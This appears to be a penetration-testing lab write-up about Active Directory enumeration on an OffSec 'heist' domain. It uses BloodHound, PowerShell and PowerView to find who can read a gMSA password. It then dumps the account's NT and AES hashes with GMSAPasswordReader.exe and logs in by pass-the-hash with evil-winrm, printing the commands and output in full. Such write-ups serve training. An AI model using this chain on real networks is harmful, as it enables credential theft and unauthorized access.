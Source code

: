 # Enumerating Objects

## Example

In this page we'll cover some enumeration TTP's that we can use to further understand the active directory objects in the domain we're working with.

## Reviewing Bloodhound

Once we load data into bloodhound we can get a map of the users on the domain we want to target, this often gives us valuable information on intersting objects we want to enumerate further

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This shows that the **svc\_apache** service account can read the GMSA password, which means that the **svc\_apache** account is a Group Managed Service Account (gMSA).

<mark style="color:red;">**NOTE:**</mark> Group managed service accounts (gMSAs) are managed domain accounts that you use to help secure services. Password management for that account is handled by the Windows operating system.

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}

### Confirm GMSA is enabled

We can confirm that the user svc\_apache service account has GMSA enabled.

```powershell
PS C:\Users\enox> Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}


DistinguishedName : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
Enabled           : True
Name              : svc_apache
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : d40bc264-0c4e-4b86-b3b9-b775995ba303
SamAccountName    : svc_apache$
SID               : S-1-5-21-537427935-490066102-1511301751-1105
UserPrincipalName :

```

The following command provides info about which groups have permissions to retrieve the password for the svc\_apache service account:

```powershell
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames


CN                                         : svc_apache
DNSHostName                                : DC01.heist.offsec
DistinguishedName                          : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
MemberOf                                   : {CN=Remote Management Users,CN=Builtin,DC=heist,DC=offsec}
Created                                    : 7/20/2021 4:23:44 AM
LastLogonDate                              : 9/14/2021 8:27:06 AM
PasswordLastSet                            : 7/20/2021 4:23:44 AM
msDS-ManagedPasswordInterval               : 30
PrincipalsAllowedToDelegateToAccount       : {}
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,OU=Domain Controllers,DC=heist,DC=offsec, CN=Web Admins,CN=Users,DC=heist,DC=offsec}
ServicePrincipalNames                      :




```

We see under <mark style="color:yellow;">**PrincipalsAllowedToRetrieveManagedPassword**</mark> we see the group "Web Admins" let's enumerate this group further.

### Review Domain Group "Web Admins" PowerView

Let's find the domain members in "Web Admins" with PowerView

```powershell
PS> Get-DomainGroupMember "Web Admins"



GroupDomain             : heist.offsec
GroupName               : Web Admins
GroupDistinguishedName  : CN=Web Admins,CN=Users,DC=heist,DC=offsec
MemberDomain            : heist.offsec
MemberName              : enox
MemberDistinguishedName : CN=Naqi,CN=Users,DC=heist,DC=offsec
MemberObjectClass       : user
MemberSID               : S-1-5-21-537427935-490066102-1511301751-1103



```

We can see that our current user: "enox" can extract passwords! This means once  we extract we can login to apache\_svc.



### **Extracting the gMSA Password Using GMSAPasswordReader.exe**&#x20;

We can use [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies) to retrieve the gMSA password with our current user.

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_apache'

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 526C435B8E4CF11F447D6EF7152665BB
[*]       aes128_cts_hmac_sha1 : 19565C12FDE19AD1033BA3BBD56DD230
[*]       aes256_cts_hmac_sha1 : 43F6DECE6269A588687ACFF41F633A0F7AA9C3FBC7FEAB8BE6981854C19FE817
[*]       des_cbc_md5          : 4AEA91DCEF918F29

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

```

<mark style="color:red;">NOTE:</mark> rc4\_hmac is the same as the nt hash.



### Login to svc\_apache with credentials

DONT FORGET THE $ IN THE USERNAME! ANYTIME YOU SEE THIS YOU MUST ADD IT!

```shell-session
evil-winrm -i 192.168.191.165 -u svc_apache$ -H 83AC7FECFBF44780E3AAF5D04DD368A5 
```
